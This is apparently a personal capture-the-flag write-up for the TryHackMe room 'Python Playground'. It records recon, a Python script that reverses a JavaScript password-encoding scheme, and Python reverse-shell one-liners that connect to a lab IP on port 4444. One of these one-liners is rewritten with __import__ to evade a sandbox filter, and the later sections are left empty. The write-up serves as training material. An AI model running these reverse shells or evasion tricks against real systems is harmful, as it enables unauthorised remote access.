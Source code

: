 # Python-Playground Helped-Through

Name: Python-Playground
Date: 6/5/2023 
Difficulty:  Hard
Goals:  
- Pythonic Expertise
- Requests library brain scarring needs to occur 
Learnt:
Beyond Root:
- Finish [[Racetrack-Bank-Helped-Through]] python script and another for this box

Need to some THM, but I also need to figure out a best in slot FTP server for CTFs (build and tear down) and one that is a most secure for just in case and for one of the Beyond Root challenges for [[Kotarak-Helped-Through]]. I decided that I have not done a Alh4zr3d stream in a week so I also need to improve my Python so I chose [Cthulhu Cthursday: TryHackMe's "GameBuzz" and "Python Playground"](https://www.youtube.com/watch?v=AqNKLu_y6H8). I also need to do some execise in the intervals. This Helped-Through is paired with [[GameBuzz-Helped-Through]]. 

Apparently these are malders. I here to learn to boulder the malders one day.

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

Nmap found:
![](csabd.png)

![](supersecretpanel.png)

![](athreattosecurity.png)

```js
function string_to_int_array(str) {
    const intArr = [];
    for (let i = 0; i < str.length; i++) {
        const charcode = str.charCodeAt(i);
        // This is not reversible as result of modulus and division 
        const partA = Math.floor(charcode / 26);
        const partB = charcode % 26;
        intArr.push(partA);
        intArr.push(partB);
    }
    return intArr;
}

function int_array_to_text(int_array) {
    let txt = '';
    for (let i = 0; i < int_array.length; i++) {
        txt += String.fromCharCode(97 + int_array[i]);
    }
    return txt;
}

```

Reversing attempt:
```js
hash = 'dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu'
tmp = int_array_to_text(hash)
tmp = string_to_int_array(tmp)
tmp = int_array_to_text(tmp)
const hash = int_array_to_text(string_to_int_array(int_array_to_text(string_to_int_array(chosenPass))))
const tmp = string_to_int_array(int_array_to_text(string_to_int_array(int_array_to_text(hash))))
```

Python things learnt
```python
# Python chr() function takes integer argument and return the string representing a character at that code point. 
chr()
# The _ord()_ function returns an integer representing the Unicode character.
ord()
```

Walking through the reversing of the functions Alh4zr3d really shines. The only mistake was just multiplication of a variable when the control was a for loop.
```python
#!/usr/share/python3

def int_array_to_string(int_array):
    result = ""
    i = 0
    while i < len(int_array):
        char_code = int_array[i] * 26
        i += 1
        char = chr(char_code + int_array[i])
        result += char
        i += 1

    return result


def string_to_int_array(string):
    result = []
    for i in string:
        result.append(ord(i) - 97)
    return result


def main():
    hash = "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu"
    print(int_array_to_string(string_to_int_array(int_array_to_string(string_to_int_array(hash)))))
    exit()

if __name__ == '__main__':
    main()
```


We will probably need to evade filting of a reverse shell
```python
import 
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.43.145",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```
Needs to be changes - Sandboxes are not filters but function the same [Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes) - tried various keywords and builtins, but to no success

![](importmod.png)

![](open0.png)

Learning that simple obfuscation - Al pointed the way
```python
# Reverse the strings and return back to intended form with [::-1]
# base64 encoding

socket = __import__("socket", globals=None, locals=None, fromlist=(), level=0)
os = __import__("os", globals=None, locals=None, fromlist=(), level=0)
pty = __import__("pty", globals=None, locals=None, fromlist=(), level=0)
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.43.145",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")
```

![](rootinthedockercontainer.png)

## Exploit


## Foothold

## PrivEsc

## Beyond Root

      
